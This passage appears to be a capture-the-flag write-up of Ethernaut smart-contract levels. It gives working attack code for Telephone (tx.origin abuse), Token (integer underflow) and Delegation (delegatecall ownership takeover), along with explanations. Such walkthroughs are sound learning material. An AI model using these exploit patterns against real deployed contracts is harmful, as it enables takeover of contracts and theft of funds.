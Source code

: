 ```
        // like this as well. This approach is useful for when you don't have access
        // to the source code of the contract you want to interact with.
        bytes memory payload = abi.encodeWithSignature("flip(bool)", side);
        (bool success, ) = victim.call{value: 0 ether}(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```

## 4. Telephone
The way to break this level is to understand how tx.origin works. When you call a contract (A) function from within another contract (B), the msg.sender is the address of B, not the account that you initiated the function from which is tx.origin. Deploy the following contract on remix and call the `attack` function to take over the victim contract.
```
pragma solidity ^0.8.0;

contract AttackTelephone {
    address victim = 0x5fD8a73D2F2BAb543A2a42bDEe3688a05f40829b;

    function attack() public {
        bytes memory payload = abi.encodeWithSignature("changeOwner(address)", msg.sender);
        (bool success, ) = victim.call{value: 0}(payload);
        require(success, "Transaction call using encodeWithSignature is successful");
    }
}
```

## 5. Token
In earlier versions of solidity, smart contract developers have to be mindful when operating on unsigned integers as one might accidentally cause an integer under/overflow. A library like safemath was created to help operate on these integers safely but as of solidity 0.8.0, this is no longer necessary because solidity 0.8.0 introduces a [built-in check on arithmetic operations](https://docs.soliditylang.org/en/v0.8.13/080-breaking-changes.html).

In order to become the owner of this contract, you simply need to pass a value > 20 since the condition in the first require statement will underflow and therefore will always pass.
```
await contract.transfer(instance, 21)
```

## 6. Delegation
DelegateCall means you take the implementation logic of the function in the contract you're making this call to but using the storage of the calling contract. Since msg.sender, msg.data, msg.value are all preserved when performing a DelegateCall, you just needed to pass in a malicious msg.data i.e. the encoded payload of `pwn()` function to gain ownership of the `Delegation` contract.
```
let payload = web3.eth.abi.encodeFunctionSignature({
    name: 'pwn',
    type: 'function',
    inputs: []
});

await web3.eth.sendTransaction({
    from: player,
    to: instance,
    data: payload
});
```
